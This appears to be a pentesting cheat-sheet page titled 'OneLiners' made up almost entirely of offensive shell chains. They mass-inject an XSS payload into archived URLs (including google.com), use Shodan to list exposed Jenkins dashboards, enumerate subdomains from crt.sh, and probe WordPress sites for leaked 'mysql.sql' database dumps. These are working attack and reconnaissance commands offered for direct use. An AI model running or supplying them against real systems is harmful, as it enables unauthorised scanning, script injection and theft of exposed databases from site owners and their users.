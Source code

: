 ```yaml
---
title: OneLiners
icon: fas fa-info-circle
order: 3
---
```


##Mass XSS via wayback machine<br>
+``gau http://target.com | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``<br>
+``gau google.com | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``


###Mass IPs listing Via Shodan<br>
+```shodan search --limit 1000 'http.title:"Dashboard [Jenkins]"' | awk  '{print $1,":"$2}' | sed 's/ //' | httpx -silent | tee /root/Desktop/shodan.txt```


###Subdomain from crt.sh<br>
+```curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | tee /root/Desktop/crt.txt```

###wordpress mysql <br>
+```sublist3r -d target.com | httpx -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -ports 80,443,8080,8443```

